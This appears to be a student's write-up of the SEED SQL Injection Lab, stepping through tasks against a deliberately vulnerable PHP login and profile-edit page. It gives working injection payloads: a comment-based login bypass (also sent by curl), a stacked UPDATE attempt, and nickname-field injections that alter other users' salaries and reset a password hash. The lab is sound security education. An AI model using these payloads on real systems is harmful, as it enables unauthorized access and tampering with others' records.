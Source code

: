 # SQL Injection Lab

## Task 1

!['task1'](./imgsrc/Task1.png)

## Task 2

### Task 2.1

#### Input

``` SQL
admin' #
```

#### Output

!['task2.1'](./imgsrc/Task2.1.png)

### Task 2.2

#### Input

``` curl
curl ’www.seed-server.com/unsafe_home.php?username=admin%27%20%23’
```

#### Output

!['task2.2\_1'](./imgsrc/Task2.2_1.png)
!['task2.2\_2'](./imgsrc/Task2.2_2.png)

### Task 2.3

When I entered input below into the USERNAME Field,

``` SQL
admin'; UPDATE credential SET PhoneNumber = '1' WHERE Name = 'Alice' #
```

error occurs like below.

!['task2.3'](./imgsrc/Task2.3.png)

According to the php official website[[link]](https://www.php.net/manual/en/mysqli.query.php),
mysqli::query() can only execute a single SQL statement.

## Task 3

### Task 3.1

In the nickname field, type in input below

``` SQL
', Salary = 'Amount you want' WHERE Name = 'Alice' #
```

#### Input

``` SQL
', Salary = '100000' WHERE Name = 'Alice' #
```

#### Output

!['task3'](./imgsrc/Task3.png)

### Task 3.2

Do same thing as Task 3.1, but change the name 'Alice' to 'Boby'

``` SQL
', Salary = 'Amount you want' WHERE Name = 'Boby' #
```

#### Input

``` SQL
', Salary = '1' WHERE Name = 'Boby' #
```

#### Output

!['task3'](./imgsrc/Task3.png)

### Task 3.3

By reversing encrypted password, I could figure out that
Boby's original password is 'seedboby'.

After I typed in input below in the nickname field,

``` SQL
', Password = sha1('Boby') WHERE Name = 'Boby' #
```

I no longer could login via 'seedboby', but could login using 'Boby'.
